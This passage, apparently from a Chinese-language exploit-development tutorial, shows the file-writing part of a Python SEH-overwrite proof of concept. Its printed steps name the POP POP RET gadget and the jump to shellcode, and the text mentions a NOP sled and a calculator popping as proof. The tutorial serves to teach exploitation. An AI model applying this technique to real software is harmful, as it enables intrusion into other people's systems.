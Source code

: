 ```
try:
    print("[x] Opening the malicious file")
    payload_execution = open(malicious_file, "w+")
    print("[x] Creating a file named", malicious_file) 
    payload_execution.write(payload)
    print("[x] Adding payload to the malicious file")
    payload_execution.close()
    print("[x] Sending junk")
    print("[x] Sending POP POP RET via controlled SEH handler")
    print("[x] Jumping to shellcode")
except:
    print("[!] Error creating the exploit")
```

请注意，我们的有效载荷现在还包含一个 NOP sled。

![](img/b04605cccf2422c33832840bd02ad7ea.png)

现在，当我们运行应用程序的最终版本时，我们可以弹出一个计算器。

![](img/7d147936177bdf7e53f0506c887f7b68.png)